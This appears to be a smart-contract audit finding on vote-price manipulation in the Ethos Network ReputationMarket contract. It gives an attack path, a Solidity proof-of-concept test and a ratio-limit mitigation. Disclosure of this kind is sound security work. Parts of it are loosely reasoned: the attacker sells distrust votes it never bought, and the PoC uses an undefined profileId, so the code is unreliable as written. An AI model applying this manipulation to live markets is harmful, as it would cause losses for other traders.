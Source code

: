 Mini Fuchsia Mantis

High

# Price Manipulation Through Minimum Market Value

### Summary

Attacker can manipulate vote prices to near-zero through repeated small buys/sells, impacting all market participants
A critical flaw in the vote price calculation mechanism allows an attacker to manipulate market prices by exploiting the minimum viable state of trust/distrust votes (1 vote). When a market reaches this state, prices can be manipulated to extreme values, causing significant profit/loss for other users.


### Root Cause

In _calculateSell(), the contract attempts to prevent selling the last vote:
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L1031-L1044

However, the price calculation in _calcVotePrice becomes extremely volatile when one side's vote count gets close to 1:
https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Attacker identifies a market with minimal activity:

```solidity
Initial state example:
Trust votes: 10
Distrust votes: 10
Base price: 0.01 ETH
```
Attacker buys large amount of trust votes to skew ratio:

```solidity 
After trust vote purchase:
Trust votes: 100
Distrust votes: 10
```
Attacker slowly sells distrust votes until minimum:

```solidity
 Near minimum state:
Trust votes: 100
Distrust votes: 2  // One more sale would revert due to minimum check
```

Due to extreme imbalance:

- Trust vote price: ~0.98 * basePrice
- Distrust vote price: ~0.02 * basePrice


Price calculation becomes extremely sensitive to small changes:

```solidity 
For distrust votes:
price = (2 * basePrice) / 102  // Extremely low
// For trust votes:
price = (100 * basePrice) / 102  // Nearly full basePrice
```

### Impact

HIGH severity:

- Price manipulation affects all market participants
- Can force unfavorable trades due to extreme price disparities
- Breaks core principle: "Credibility is based on stake value"
- Market becomes non-functional at extremes



### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ReputationMarketExploit {
    function testPriceManipulation() public {
        ReputationMarket market = new ReputationMarket();
        
        // Create market with minimum config
        market.createMarket{value: 0.02 ether}();  // 2 * DEFAULT_PRICE
        
        // Buy trust votes to create imbalance
        market.buyVotes{value: 1 ether}(
            profileId,
            true,    // trust votes
            90,      // expected votes
            500      // 5% slippage
        );
        
        // Sell distrust votes to minimum
        market.sellVotes(
            profileId,
            false,   // distrust votes
            8        // sell until 2 remain
        );
        
        // Verify extreme price disparity
        uint256 trustPrice = market.getVotePrice(profileId, true);
        uint256 distrustPrice = market.getVotePrice(profileId, false);
        
        // trustPrice will be close to basePrice
        // distrustPrice will be extremely low
        assert(distrustPrice * 40 < trustPrice); // More than 40x price difference
    }
}
```

### Mitigation

Implement minimum ratio requirements:

```solidity
function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    uint256 minRatio = 10; // Example: 10%
    
    // Ensure neither side can go below minRatio of total
    require(
        market.votes[TRUST] * 100 >= totalVotes * minRatio && 
        market.votes[DISTRUST] * 100 >= totalVotes * minRatio,
        "Vote ratio exceeds allowed imbalance"
    );
    
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
}
```